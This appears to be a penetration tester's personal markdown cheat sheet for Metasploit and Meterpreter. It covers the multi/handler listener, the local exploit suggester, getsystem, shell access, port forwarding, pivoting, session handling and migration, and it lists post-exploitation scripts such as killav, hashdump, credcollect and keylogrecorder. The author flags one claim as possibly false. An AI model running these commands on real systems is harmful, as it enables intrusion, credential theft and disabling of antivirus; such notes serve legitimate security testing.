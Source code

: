 ```yaml
---
title: Metasploit
---
```


## Metasploit
###### Commands
show options for the payload. 
```
show targets
show options
```
A common module is the ‘exploit/multi/handler’ module which is used to handle payloads. For example, if you launch an exploit outside of Metasploit, this module can be used to set up a payload that listens for and handles incoming reverse TCP connections on the specified port and host.
```
use exploit/multi/handler
```
###### Particularly when you are located on a different subnet, you may not be able to access all of the targets included in the customer scope. Once you compromise hosts that may have routes to other targets, you can utilize the Metasploit ‘route’ command in conjunction with a SOCKS4 proxy to route traffic through open sessions (i.e. from your phishing campaign or other exploitation).

## Meterpreter
Suggest post exploitation paths
```
run post/multi/recon/local_exploit_suggester
```
Get Administrator
```
getsystem
```
Drop into a command prompt
```
shell
```

Creates relay from a meterpreter session
```
portfwd add -l 22 -p 22 -r 10.20.170.87
```

###### Systeminfo
Check the system and current process that the session is running as. I had an issue where the exploit gave me a x86 (WOW64 32 bit) shell and the privesc needed x64 (64bit).
^ This statement might be completely false lol ^
```
sysinfo
```

###### I am not sure if this migrated me to a (x86) process.
```
run post/windows/manage/migrate
```

###### Core Commands
Background the meterpreter session
```
background
```
Bring that meterpreter session to the foreground. Trick here is hitting tab to see available sessions. 
```
session -i "session id"
```

Meterpreter Scripts
```
killav
metsvc
migrate
netenum
prefetchtool
vnc_oneport / vnc
sheduleme
winenum
credcollect
get_local_subnets
getcountermeasure
getgui
gettelnet
hashdump
keylogrecorder
checkvm
```